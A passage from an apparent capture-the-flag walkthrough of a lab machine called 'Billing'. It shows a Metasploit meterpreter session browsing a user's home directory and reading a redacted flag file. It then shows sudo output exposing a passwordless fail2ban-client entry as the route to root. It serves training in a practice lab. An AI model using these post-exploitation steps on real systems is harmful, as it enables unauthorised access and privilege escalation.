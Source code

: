 Note if you get the below, you might have burp suite open, close burp and run exploit again
`[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:8080).`

## What is user.txt?
Now we can search for the user.txt, it's normally within a user dir,
```
meterpreter > cd magnus
meterpreter > ls
Listing: /home/magnus
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
020666/rw-rw-rw-  0     cha   2025-03-09 00:12:15 -0500  .bash_history
100600/rw-------  220   fil   2024-03-27 15:45:39 -0400  .bash_logout
100600/rw-------  3526  fil   2024-03-27 15:45:39 -0400  .bashrc
040700/rwx------  4096  dir   2024-09-09 08:01:09 -0400  .cache
040700/rwx------  4096  dir   2024-03-27 15:47:04 -0400  .config
040700/rwx------  4096  dir   2024-09-09 08:01:09 -0400  .gnupg
040700/rwx------  4096  dir   2024-03-27 15:46:12 -0400  .local
100700/rwx------  807   fil   2024-03-27 15:45:39 -0400  .profile
040700/rwx------  4096  dir   2024-03-27 15:46:17 -0400  .ssh
040700/rwx------  4096  dir   2024-03-27 15:46:12 -0400  Desktop
040700/rwx------  4096  dir   2024-03-27 15:46:12 -0400  Documents
040700/rwx------  4096  dir   2024-03-27 15:46:12 -0400  Downloads
040700/rwx------  4096  dir   2024-03-27 15:46:12 -0400  Music
040700/rwx------  4096  dir   2024-03-27 15:46:12 -0400  Pictures
040700/rwx------  4096  dir   2024-03-27 15:46:12 -0400  Public
040700/rwx------  4096  dir   2024-03-27 15:46:12 -0400  Templates
040700/rwx------  4096  dir   2024-03-27 15:46:12 -0400  Videos
100644/rw-r--r--  38    fil   2024-03-27 17:44:18 -0400  user.txt

meterpreter > cat user.txt 
THM{---------------------------}

```

## Privilege Escalation flag, What is root.txt?
Running sudo -l to check sudo privileges, we find we can run fail2ban-client as sudo with no password

```
sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client

```
